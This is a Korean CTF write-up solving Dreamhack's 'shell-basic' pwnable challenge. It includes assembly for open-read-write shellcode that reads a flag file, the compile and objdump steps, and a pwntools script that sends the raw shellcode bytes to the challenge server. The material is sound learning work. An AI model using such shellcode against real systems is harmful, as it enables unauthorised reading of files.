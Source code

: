 ```yaml
---
title: "[pwn]shell-basic"
category: Pwnable
excerpt: "dreamhack shell-basic writeup"
toc: true
toc_label: "Table of Contents"
toc_sticky: true
toc_icon: "bars"
---
```


# shell-basic
처음 풀어보는 포너블 문제라 감도 안왔지만 튜토리얼로 어느정도는 따라갈 수 있었다. 

## assembly
~~~
__asm__(
	".global main\n"
        "main:\n"

	"xor rax,rax\n"
	"push rax\n"
        "mov rax,0x676E6F6F6F6F6F6F\n"
	"push rax\n"
        "mov rax,0x6C5F73695F656D61\n"
        "push rax\n"
	"mov rax,0x6E5F67616C662F63\n"
        "push rax\n"
	"mov rax,0x697361625F6C6C65\n"
        "push rax\n"
	"mov rax,0x68732F656D6F682F\n"
        "push rax\n"
	"mov rdi,rsp\n"
        "xor rsi,rsi\n"
        "xor rdx,rdx\n"
	"xor rax,rax\n"
	"add rax,0x2\n"
        "syscall\n"
	"\n"
        "mov rdi,rax\n"
	"mov rsi,rsp\n"
	"sub rsi,0x30\n"
        "xor rax,rax\n"
	"xor rdx,rdx\n"
	"add rdx,0x30\n"
        "syscall\n"
	"\n"
	"xor rdi,rdi\n"
	"add rdi,0x1\n"
	"xor rax,rax\n"
	"add rax,0x1\n"
        "syscall");
~~~
## 풀이
1. 환경 조사
**file shell_basic** 을 통해 환경을 먼저 조사한다. amd64 환경인 것을 알 수 있다.   
2. 파일경로 push
먼저 12번부터 16번까지는 stack에 file location을 string의 형태로 넣었다. 우연인지 파일 경로가 8byte에 맞아 떨어지므로 \0을 마지막에 넣어주기 위해 0을 먼저 push해주었다.   
이때 shell code에는 \x00이 포함되면 안되므로 mov rax,0x0보다는 xor rax,rax를 해주는 것이 맞다.  
3. system call
그 이후에는 SYS_OPEN의 변수에 맞게 넣어주면 된다. SYS_OPEN(const char \*filename,int flags,umode_t mode)에 flags=0, mode=null 을 넣어준 것이다.   
나머지 SYS_READ(unsigned int fd,char \*buf,size_t count), SYS_WRITE(unsigned int fd,char \*buf,size_t count) 함수의 parameter에 맞게 넣어주면 된다.  
4. gcc
**gcc -o orw orw.c -masm=intel** 명령어를 통해 컴파일한다.  
5. objdump
**objdump -d ./orw** 명령어로 opcode를 추출한다.   
<img width="605" alt="opcode" src="https://user-images.githubusercontent.com/45323902/154000690-ae589c0c-4fb5-46fa-823f-0cd0e2fd155d.png">  
여기서 마지막 syscall까지만 추출하면 된다.  
6. script
~~~
	from pwn import *

	p=remote('host1.dreamhack.games',22700)

	p.recvuntil(b'shellcode:')
	exploit=b'\x48\x31\xc0\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x48\x83\xc0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\x31\xc0\x48\x31\xd2\x48\x83\xc2\x30\x0f\x05\x48\x31\xff\x48\x83\xc7\x01\x48\x31\xc0\x48\x83\xc0\x01\x0f\x05'
	p.send(exploit)
	p.interactive()
~~~
이처럼 python script를 이용해 shellcode를 전달하면 함수 내부에서 shellcode를 메모리에 넣고 실행하게 된다.  
<img width="725" alt="script exec" src="https://user-images.githubusercontent.com/45323902/154001147-99dffd0e-0229-4787-888c-b8560b906d1e.png">  
여기서 flag이후 다른 문자열이 나오는 이유는 buf size가 0x30인데 flag가 그보다 짧아 메모리에 있는 다른 내용까지 출력하게 된 것이다.
